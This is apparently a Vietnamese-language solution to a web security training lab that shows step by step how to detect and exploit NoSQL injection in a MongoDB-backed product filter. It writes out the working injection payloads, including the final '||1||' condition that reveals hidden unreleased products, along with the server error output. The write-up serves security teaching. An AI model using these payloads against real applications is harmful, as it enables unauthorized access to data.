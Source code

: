 # **Lab: Detecting NoSQL injection**

>  The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.  
 To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.  

# **Solution**

Truy cập một danh mục bất kỳ để lấy tham số `category`:

```
https://0a720024037c4da48177705100be0095.web-security-academy.net/filter?category=Pets
```

Giờ thêm ký tự `'` để phá vỡ cấu trúc truy vấn:

```
category=Pets'
```

```
Internal Server Error

Command failed with error 139 (JSInterpreterFailure): 'SyntaxError: unterminated string literal : functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25 ' on server 127.0.0.1:27017. The full response is {"ok": 0.0, "errmsg": "SyntaxError: unterminated string literal :\nfunctionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25\n", "code": 139, "codeName": "JSInterpreterFailure"}
```

Thành công gây ra lỗi ở phía ứng dụng, giờ sửa lại để truy vấn chúng ta chèn là hợp lệ:

```
category=Pets'+'

URL encode: category=Pets'%2b'
```

Không có lỗi xảy ra, đồng nghĩa với việc chèn server-side này có thể thực hiện.

Giờ thêm câu điều kiện để xem việc chèn thêm điều kiện có hoạt động không:

```
category=Pets'&&1&&'x
URL encode: category=Pets'%26%261%26%26'x
```

> Pet: true  
1: true  
'x' true  
&&: and  
-> true

Các sản phẩm hiển thị bình thường trong phản hồi, giờ thử gửi điều kiện sai:

```
category=Pets'&&0&&'x
URL encode: category=Pets'%26%260%26%26'x
```

Không có sản phẩm nào được hiển thị, do điều kiện lấy từ bộ lọc là sai. Nghĩa là chúng ta thành công tự thêm điều kiện vào truy vấn của ứng dụng.

Để lấy được các sản phẩm mà không quan tâm điều kiện ẩn phía sau như `release` ta làm như sau:

```
category=Pets'||1||'
```

> ||: Or

Done, thành công lấy tất cả sản phẩm bao gồm các mặt hàng bị ẩn.

